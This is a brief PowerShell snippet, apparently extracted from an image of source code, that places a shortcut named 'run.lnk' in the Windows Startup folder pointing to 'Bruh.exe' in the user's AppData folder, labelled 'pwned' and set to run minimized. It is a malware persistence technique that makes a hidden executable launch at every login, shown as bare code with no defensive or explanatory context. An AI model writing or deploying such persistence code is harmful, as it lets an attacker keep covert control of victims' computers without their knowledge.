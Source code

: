 <d1>
$ComObj = New-Object -ComObject WScript.Shell
$ShortCut = $ComObj.CreateShortcut("$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\run.lnk")
$ShortCut.TargetPath = "$Env:USERPROFILE\AppData\Roaming\Bruh.exe"
$ShortCut.Description = "pwned"
$ShortCut.FullName 
$ShortCut.WindowStyle = 7
$ShortCut.Save()
<d1>
